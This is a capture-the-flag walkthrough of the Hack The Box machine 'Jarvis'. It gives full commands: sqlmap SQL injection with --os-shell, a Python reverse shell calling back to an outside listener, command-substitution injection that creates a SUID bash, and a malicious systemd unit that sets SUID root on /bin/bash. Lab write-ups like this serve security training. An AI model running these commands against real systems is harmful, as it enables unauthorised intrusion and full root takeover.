

Jarvis

Recon
Starting with nmap. SSH, Apache on 80, and a second Apache instance on 64999. The web server resolves to supersecurehotel.htb, which I added to /etc/hosts.
[jarvis] nmap -Pn --min-rate 2000 -T5 -p- -v -sSVC -oN nmap 10.129.229.137
Nmap scan report for supersecurehotel.htb (10.129.229.137)
Host is up (0.23s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open http Apache httpd 2.4.25 ((Debian))
64999/tcp open http Apache httpd 2.4.25 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelThe site on 80 is a hotel booking front end, "Stark Hotel". The room pages take a numeric parameter, /room.php?cod=1, which is the obvious injection candidate.
Exploitation
The cod parameter is injectable. Pointing sqlmap at it confirms the injection, and since the DB user can write files, I go straight for --os-shell, which drops a PHP shell in the web root and hands back command execution as www-data:
[jarvis] sqlmap -u 'http://supersecurehotel.htb/room.php?cod=1' --batch --os-shellFrom that limited shell I fire a proper reverse shell back to my listener:
os-shell> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.221",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'[jarvis] nc -lvnp 4444
www-data@jarvis:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)Post Exploitation
Enumerating sudo rights, www-data can run an admin helper as the user pepper: /var/www/Admin-Utilities/simpler.py. The script has a ping feature that blacklists a handful of characters before passing the input to a shell, but it never blocks command substitution. Wrapping my commands in $(...) sails past the filter and runs as pepper. I use it to make a SUID copy of bash:
localhost$(cp /bin/bash /tmp/bash)
localhost$(chmod u+s /tmp/bash)Running that copy with -p keeps the effective UID as pepper. From there I fix the real UID with setreuid, which still leaves the group as www-data, so I run newgrp pepper to pick up the pepper group as well. That last part matters: the root SUID used for the next step is only group-executable by pepper. Now I have a full pepper session and the user flag:
www-data@jarvis:/tmp$ /tmp/bash -p
bash-4.4$ id
uid=33(www-data) gid=33(www-data) euid=1000(pepper) groups=33(www-data)
bash-4.4$ python3 -c 'import os; os.setreuid(1000,1000); os.execv("/bin/bash", ["bash"])'
pepper@jarvis:/tmp$ id
uid=1000(pepper) gid=33(www-data) groups=33(www-data)
pepper@jarvis:~$ newgrp pepper
pepper@jarvis:~$ id
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper),33(www-data)
pepper@jarvis:~$ cat ~/user.txtPrivilege Escalation
As pepper, systemctl is a root-owned SUID binary that the pepper group can execute:
pepper@jarvis:~$ ls -la /bin/systemctl
-rwsr-x--- 1 root pepper 171K Jun 29 2022 /bin/systemctlA SUID systemctl means we can install and start our own unit, and anything in its ExecStart runs as root. I wrote a one-shot service that sets the SUID bit on bash, then enabled and started it:
pepper@jarvis:~$ cat /dev/shm/malicious.service
[Service]
Type=oneshot
ExecStart=/bin/bash -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target
pepper@jarvis:~$ /bin/systemctl enable --now /dev/shm/malicious.serviceWith bash now SUID root, -p drops straight into a root shell to read the flag:
pepper@jarvis:~$ /bin/bash -p
bash-4.4# id
uid=1000(pepper) gid=1000(pepper) euid=0(root) groups=1000(pepper),33(www-data)
bash-4.4# cat /root/root.txt